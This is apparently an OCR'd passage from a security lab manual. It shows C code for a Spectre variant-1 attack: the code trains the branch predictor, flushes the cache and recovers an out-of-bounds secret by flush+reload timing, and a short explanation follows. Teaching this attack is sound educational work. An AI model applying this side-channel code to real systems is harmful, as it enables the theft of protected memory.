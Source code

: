 ```c
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
    addr = &array[i*4096 + DELTA];
    time1 = __rdtscp(&junk);
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;
    if (time2 <= CACHE_HIT_THRESHOLD){
        printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
        printf("The Secret = %d(%c).\n",i, i);
    }
  } 
}
void spectreAttack(size_t index_beyond)
{
  int i;
  uint8_t s;
  volatile int z;
  // Train the CPU to take the true branch inside restrictedAccess().
  for (i = 0; i < 10; i++) { 
      restrictedAccess(i); 
  }
  // Flush bound_upper, bound_lower, and array[] from the cache.
  _mm_clflush(&bound_upper);
  _mm_clflush(&bound_lower);
  for (i = 0; i < 256; i++)  { _mm_clflush(&array[i*4096 + DELTA]); }
  for (z = 0; z < 100; z++)  {   }
  // Ask restrictedAccess() to return the secret in out-of-order execution. 
  s = restrictedAccess(index_beyond);  
  array[s*4096 + DELTA] += 88;  
}

int main() {
  flushSideChannel();
  size_t index_beyond = (size_t)(secret - (char*)buffer);  
  printf("secret: %p \n", secret);
  printf("buffer: %p \n", buffer);
  printf("index of secret (out of bound): %ld \n", index_beyond);
  spectreAttack(index_beyond);
  reloadSideChannel();
  return (0);
}
```

> Since we have trained the CPU to take the true-branch inside restrictedAccess(), the CPU will return buffer[index beyond], which contains the value of the secret, in the out-of-order execution. The secret value then causes its corre- sponding element in array[] to be loaded into cache. All these steps will eventually be reverted, so from the outside, only zero is returned from restrictedAccess(), not the value of the secret. However, the cacheisnotcleaned,andarray[s*4096 + DELTA]isstillkeptinthecache.Now,wejustneedtouse the side-channel technique to figure out which element of the array[] is in the cache.
